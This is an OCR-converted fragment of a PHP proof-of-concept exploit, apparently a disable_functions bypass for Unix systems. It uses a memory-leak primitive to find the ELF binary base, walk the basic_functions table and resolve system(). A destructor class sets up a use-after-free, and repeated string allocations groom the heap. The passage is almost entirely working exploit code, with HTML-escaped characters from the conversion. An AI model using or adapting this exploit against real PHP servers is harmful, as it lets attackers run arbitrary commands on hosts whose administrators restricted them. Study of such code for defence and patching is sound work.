 ```
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i &lt; $data_size / 8; $i++) `{`
            $leak = leak($data_addr, $i * 8);
            if($leak - $base &gt; 0 &amp;&amp; $leak - $base &lt; $text_size) `{`
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            `}` else continue;
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base &gt; 0 &amp;&amp; $leak - $base &lt; $text_size) `{`
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            `}` else continue;
            return $data_addr + $i * 8;
        `}`
    `}`
    function get_binary_base($binary_leak) `{`
        $base = 0;
        $start = $binary_leak &amp; 0xfffffffffffff000;
        for($i = 0; $i &lt; 0x1000; $i++) `{`
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) `{` # ELF header
                return $addr;
            `}`
        `}`
    `}`
    function get_system($basic_funcs) `{`
        $addr = $basic_funcs;
        do `{`
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
            if($f_name == 0x6d6574737973) `{` # system
                return leak($addr + 8);
            `}`
            $addr += 0x20;
        `}` while($f_entry != 0);
        return false;
    `}`
    class ryat `{`
        var $ryat;
        var $chtg;

        function __destruct()
        `{`
            $this-&gt;chtg = $this-&gt;ryat;
            $this-&gt;ryat = 1;
        `}`
    `}`
    class Helper `{`
        public $a, $b, $c, $d;
    `}`
    if(stristr(PHP_OS, 'WIN')) `{`
        die('This PoC is for *nix systems only.');
    `}`
    $n_alloc = 10; # increase this value if you get segfaults
    $contiguous = [];
    for($i = 0; $i &lt; $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);
```